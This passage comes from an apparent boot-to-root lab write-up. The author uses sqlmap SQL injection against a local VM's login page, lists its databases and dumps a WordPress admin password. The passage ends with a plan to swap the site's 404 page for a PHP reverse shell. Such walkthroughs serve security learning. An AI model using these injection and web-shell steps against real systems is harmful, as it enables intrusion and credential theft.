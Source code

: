 available databases [7]:
[*] information_schema
[*] login
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] users
[*] wordpress8080

[12:25:44] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.56.103'

[*] shutting down at 12:25:44
{% endhighlight %}

It found seven databases, amongst which is an interesting one: `wordpress8080`. 
This seems to be the wordpress database, so I can start attacking that and see
if I can get the *admin* account. The `login` and `users` databases also look 
interesting, so let's take a look at those later. Additionally, if I can get
a login, especially an *admin* one, I could try to exploit the plugins later on.
After all, it does say there are multiple ways into this VM.

{% highlight console %}
root@kali:~# sqlmap  -u "192.168.56.103/login.php" --data="user=1&password=1&s=Submit" --dbms=mysql --tables -D wordpress8080

<snip>

Database: wordpress8080
[1 table]
+-------+
| users |
+-------+

root@kali:~# sqlmap  -u "192.168.56.103/login.php" --data="user=1&password=1&s=Submit" --dbms=mysql --dump -T users -D wordpress8080

<snip>

Database: wordpress8080
Table: users
[1 entry]
+----------+---------------------+
| username | password            |
+----------+---------------------+
| admin    | SuperSecretPassword |
+----------+---------------------+
{% endhighlight %}

The admin password for the wordpress site, excellent. As for the other tables,
I didn't find anything useful in them, so I won't post the output here. In that case
I might aswell just login to the wordpress site now. Basically I have full control 
of the wordpress site now, so what should I do? How does a PHP shell sound? Good?
Alright then... `cd /usr/share/webshells/php` and I'm going to use the 
`php-reverse-shell.php` and replace the site's *404* with that.
